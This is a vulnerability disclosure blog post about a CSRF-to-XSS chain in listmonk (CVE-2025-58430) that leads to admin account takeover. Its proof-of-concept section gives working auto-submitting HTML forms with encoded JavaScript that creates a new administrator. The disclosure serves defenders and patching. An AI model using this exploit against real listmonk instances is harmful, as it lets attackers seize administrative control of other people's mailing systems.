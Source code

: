 ```yaml
---
layout: post
title: "CSRF → XSS → Admin Takeover in listmonk (CVE-2025-58430)"
date: 2025-09-08T00:14:54+00:00
img_dir: "/assets/2025-09-09-listmonk-cve-xss"
description: "A chain of issues in listmonk allows a Cross‑Site Request Forgery (CSRF) to trigger arbitrary JavaScript execution (XSS) in the admin’s browser, culminating in a full admin account takeover"
categories: [cve]
---
```

![cover]({{ page.img_dir | relative_url }}/cover.png) 

**Disclosed:** September 9, 2025  
**Product:** [listmonk](https://github.com/knadh/listmonk) — self‑hosted newsletter & mailing‑list manager  
**CVE:** CVE-2025-58430  

### Project context 
listmonk is a widely used open‑source project for self‑hosted newsletters and mailing lists. It has **~17.8k GitHub stars** and **16k istances online** ([FoFa](https://fofa.info/result?qbase64=bGlzdG1vbms%3D) results) 

### Impact
- Creation of privileged users
- Execution of arbitrary actions as the admin
- Full administrative compromise of the listmonk instance




# Overview
A chain of issues in listmonk allows a Cross‑Site Request Forgery (CSRF) to trigger arbitrary JavaScript execution (XSS) in the admin’s browser, culminating in a full admin account takeover. In practice, an attacker can lure a logged‑in admin to a malicious page that silently sends a crafted request to the template preview endpoint; the injected JavaScript then executes in the admin’s context and performs privileged actions (e.g., creating a new administrator).

## Affected / Patched Versions
- **Affected:** <= v5.0.3 
- **Patched:** v5.1.0

> If you operate listmonk, treat this as **critical**: assume administrative compromise is possible and apply the mitigations below immediately.

## Technical Details
### 1) Missing server‑side CSRF enforcement
Requests include a `nonce` parameter alongside the `session` cookie; however, the backend accepts requests even when the `nonce` is absent or removed. This defeats the intended CSRF control because the token is not actually validated server‑side.

### 2) JavaScript execution in template preview
Users with permissions can create and **preview** templates via `POST /api/templates/preview`. The preview renderer permits inline JavaScript, which will run in the browser when the preview loads.

### 3) Cookie lacks SameSite
The `session` cookie is set without an explicit `SameSite` attribute, leaving behavior to browser defaults. On browsers that default to `SameSite=None`, cross‑site POSTs will include the session cookie, enabling CSRF.

### Putting it together
An attacker hosts a page that auto‑submits a POST to the template preview endpoint containing a JavaScript payload. Because the `nonce` isn’t enforced and the `session` cookie rides along cross‑site, the payload executes in the admin’s origin. That script can then issue authenticated API calls (e.g., to create a new admin user), resulting in **complete administrative takeover**.

## Proof of Concept 

Example HTTP request without nonce :

![user_creation_without_nonce_burp_request]({{ page.img_dir | relative_url }}/user_creation_without_nonce_burp_request.png) 

An admin (or any user with permissions) can create templates and preview them (`POST /api/templates/preview` ), in templates it is possible to execute javascript code, for example:

![browser_template_editor_with_alert]({{ page.img_dir | relative_url }}/browser_template_editor_with_alert.png) 

And this request can also be made without `nonce`.

![template_preview_burp_request_without_nonce]({{ page.img_dir | relative_url }}/template_preview_burp_request_without_nonce.png) 

Then an attacker can exploit this lack of validation to trigger an XSS in the victim's browser (let's assume the admin)

This is possible for 2 reasons :

1. There is no validation of the `nonce` (as mentioned above)
2. The `session` cookie has no samesite flag

![no_same_site_response_cookie_burp]({{ page.img_dir | relative_url }}/no_same_site_response_cookie_burp.png) 

As we can see from the image above, no samesite cookie policy is set during login, so the browser will use the default one.
Some browsers by default set `Lax` (Chrome), but many others use `None` (Firefox, Edge)

For example, we can host this html page to prompt the admin to make a post request

```html
<html>
  <!-- CSRF PoC  -->
  <body>
    <form action="https://target.tld/api/templates/preview" method="POST">
      <input type="hidden" name="template&#95;type" value="campaign" />
      <input type="hidden" name="body" value="&#123;&#123;&#32;template&#32;&quot;content&quot;&#32;&#46;&#32;&#125;&#125;&#13;&#10;&#13;&#10;&lt;script&gt;alert&#40;&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>


```

I tested the CSRF+XSS PoC written above on 3 browsers in their latest versions

- Chrome ❌
- Firefox ✅
- Edge ✅

Example in Firefox :

![xss_mozilla_poc]({{ page.img_dir | relative_url }}/xss_mozilla_poc.gif) 

We can now replace the simple `alert()` with any “harmful” request. request, for example the creation of a new admin account:

![browser_template_editor_with_final_payload]({{ page.img_dir | relative_url }}/browser_template_editor_with_final_payload.png)

```html
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https:\/\/10.100.132.47\/api\/users", true);
        xhr.setRequestHeader("Content-Type", "application\/json");
        xhr.withCredentials = true;
        var body = "{\"username\":\"testuser4\",\"email\":\"test3@test.com\",\"name\":\"testuser4\",\"password\":\"Test12345\",\"passwordLogin\":true,\"type\":\"user\",\"status\":\"enabled\",\"listRoleId\":\"\",\"userRoleId\":1,\"password2\":\"Test12345\",\"password_login\":true,\"user_role_id\":1,\"list_role_id\":null}";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
```

So the final poc that exploits CSRF + XSS to create an admin account is like this :

```html
<html>
  <!-- CSRF PoC -->
  <body>
    <form action="https://10.100.132.47/api/templates/preview" method="POST">
      <input type="hidden" name="template&#95;type" value="campaign" />
      <input type="hidden" name="body" value="&#123;&#123;&#32;template&#32;&quot;content&quot;&#32;&#46;&#32;&#125;&#125;&#13;&#10;&#13;&#10;&#32;&#32;&#32;&#32;&lt;script&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;function&#32;submitRequest&#40;&#41;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#123;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;var&#32;xhr&#32;&#61;&#32;new&#32;XMLHttpRequest&#40;&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;xhr&#46;open&#40;&quot;POST&quot;&#44;&#32;&quot;https&#58;&#92;&#47;&#92;&#47;10&#46;100&#46;132&#46;47&#92;&#47;api&#92;&#47;users&quot;&#44;&#32;true&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;xhr&#46;setRequestHeader&#40;&quot;Content&#45;Type&quot;&#44;&#32;&quot;application&#92;&#47;json&quot;&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;xhr&#46;withCredentials&#32;&#61;&#32;true&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;var&#32;body&#32;&#61;&#32;&quot;&#123;&#92;&quot;username&#92;&quot;&#58;&#92;&quot;testuser4&#92;&quot;&#44;&#92;&quot;email&#92;&quot;&#58;&#92;&quot;test3&#64;test&#46;com&#92;&quot;&#44;&#92;&quot;name&#92;&quot;&#58;&#92;&quot;testuser4&#92;&quot;&#44;&#92;&quot;password&#92;&quot;&#58;&#92;&quot;Test12345&#92;&quot;&#44;&#92;&quot;passwordLogin&#92;&quot;&#58;true&#44;&#92;&quot;type&#92;&quot;&#58;&#92;&quot;user&#92;&quot;&#44;&#92;&quot;status&#92;&quot;&#58;&#92;&quot;enabled&#92;&quot;&#44;&#92;&quot;listRoleId&#92;&quot;&#58;&#92;&quot;&#92;&quot;&#44;&#92;&quot;userRoleId&#92;&quot;&#58;1&#44;&#92;&quot;password2&#92;&quot;&#58;&#92;&quot;Test12345&#92;&quot;&#44;&#92;&quot;password&#95;login&#92;&quot;&#58;true&#44;&#92;&quot;user&#95;role&#95;id&#92;&quot;&#58;1&#44;&#92;&quot;list&#95;role&#95;id&#92;&quot;&#58;null&#125;&quot;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;var&#32;aBody&#32;&#61;&#32;new&#32;Uint8Array&#40;body&#46;length&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;for&#32;&#40;var&#32;i&#32;&#61;&#32;0&#59;&#32;i&#32;&lt;&#32;aBody&#46;length&#59;&#32;i&#43;&#43;&#41;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;aBody&#91;i&#93;&#32;&#61;&#32;body&#46;charCodeAt&#40;i&#41;&#59;&#32;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;xhr&#46;send&#40;new&#32;Blob&#40;&#91;aBody&#93;&#41;&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;submitRequest&#40;&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


## References
- GitHub Security Advisory: GHSA‑rf24‑wg77‑gq7w (CVE‑2025‑58430) — https://github.com/knadh/listmonk/security/advisories/GHSA-rf24-wg77-gq7w
- listmonk repository — https://github.com/knadh/listmonk
- listmonk documentation — https://listmonk.app/docs/